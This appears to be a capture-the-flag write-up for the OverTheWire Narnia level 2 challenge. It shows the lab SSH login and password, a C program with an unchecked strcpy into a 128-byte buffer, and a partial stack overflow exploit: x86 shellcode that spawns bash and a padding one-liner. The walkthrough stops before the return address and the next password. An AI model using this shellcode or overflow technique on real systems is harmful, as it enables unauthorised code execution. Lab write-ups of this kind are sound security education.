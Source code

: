 # Level 2 → Level 3

## Solution
```terminal
ssh narnia2@narnia.labs.overthewire.org -p 2226
```
```
Zzb6MIyceT
```
```
cd /narnia ; ls -al
```
```
cat narnia2.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

In the first few seconds I didn't understand what could be done here. But then I remembered [microcorruption](https://github.com/SimchaTeich/Microcorruption)! And in my opinion, shellcode should be implanted here to the top of the stack and overwrite the value back which is 128+4 bytes from the top of the stack (plus 4 because there is an EBP register). Therefore, the order of operations will be as follows:
* Inserting shellcode at the top of the stack
    * The same shellcode from the previous challenge that causes bash to run
* Padding the shellcode so that it is 124 bytes in size
* And next to that will come the address to the top of the stack
     * This will overwrite the address back from main
     * Don't forget little endian

Let's get started:
1. shellcode is:
    ```
    echo "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
    ```

2. padding is: 
    ```
    perl -e 'print "A"x(128-33)'
    ```

## Password for the next level:
```

```
